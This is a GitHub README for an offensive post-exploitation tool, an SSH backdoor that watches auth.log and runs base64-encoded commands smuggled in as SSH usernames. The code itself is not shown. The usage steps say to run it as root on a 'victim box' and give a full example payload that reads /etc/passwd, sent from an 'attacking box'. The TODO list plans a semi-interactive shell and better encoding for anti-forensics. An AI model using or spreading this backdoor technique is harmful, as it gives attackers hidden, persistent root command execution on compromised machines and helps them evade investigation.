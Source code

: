 # ssh-authlog-backdoor

A post exploit python script that watches auth.log for a keyword then executes base64 encoded commands.  


## How to use

1. Execute the script as root on the victim box.

2. Encode a command in base64 by using an online service or how ever you can get base64. https://www.base64encode.org/

   Example:
   ``` cat /etc/passwd > /tmp/test ```
   is
   ```Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0```
   
3. From an attacking box initiate an ssh connection as the user ```shadow---``` + ```base64 encoded command```
   Full example ```ssh shadow---Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0@VICTIM.IP``` 
   
 
### TODO
1. Make client to run on attacker box that can handel responces sent out by backdoor. (Semi-interactive shel)
2. Use better encoding/encryption on commands to aid in anti-forensics 
